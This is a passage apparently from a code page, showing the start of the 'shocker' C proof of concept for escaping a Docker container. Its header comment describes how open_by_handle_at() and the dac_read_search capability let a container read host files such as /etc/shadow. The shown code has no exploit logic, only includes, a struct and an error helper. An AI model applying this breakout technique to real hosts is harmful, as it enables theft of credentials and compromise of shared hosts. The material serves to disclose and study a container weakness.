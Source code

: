 write.c file example can be found here

```
/* shocker: docker PoC VMM-container breakout (C) 2014 Sebastian Krahmer
 *
 * Demonstrates that any given docker image someone is asking
 * you to run in your docker setup can access ANY file on your host,
 * e.g. dumping hosts /etc/shadow or other sensitive info, compromising
 * security of the host and any other docker VM's on it.
 *
 * docker using container based VMM: Sebarate pid and net namespace,
 * stripped caps and RO bind mounts into container's /. However
 * as its only a bind-mount the fs struct from the task is shared
 * with the host which allows to open files by file handles
 * (open_by_handle_at()). As we thankfully have dac_override and
 * dac_read_search we can do this. The handle is usually a 64bit
 * string with 32bit inodenumber inside (tested with ext4).
 * Inode of / is always 2, so we have a starting point to walk
 * the FS path and brute force the remaining 32bit until we find the
 * desired file (It's probably easier, depending on the fhandle export
 * function used for the FS in question: it could be a parent inode# or
 * the inode generation which can be obtained via an ioctl).
 * [In practise the remaining 32bit are all 0 :]
 *
 * tested with docker 0.11 busybox demo image on a 3.11 kernel:
 *
 * docker run -i busybox sh
 *
 * seems to run any program inside VMM with UID 0 (some caps stripped); if
 * user argument is given, the provided docker image still
 * could contain +s binaries, just as demo busybox image does.
 *
 * PS: You should also seccomp kexec() syscall :)
 * PPS: Might affect other container based compartments too
 *
 * $ cc -Wall -std=c99 -O2 shocker.c -static
 */

#define _GNU_SOURCE
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <dirent.h>
#include <stdint.h>


struct my_file_handle {
        unsigned int handle_bytes;
        int handle_type;
        unsigned char f_handle[8];
};



void die(const char *msg)
{
        perror(msg);
        exit(errno);
}
```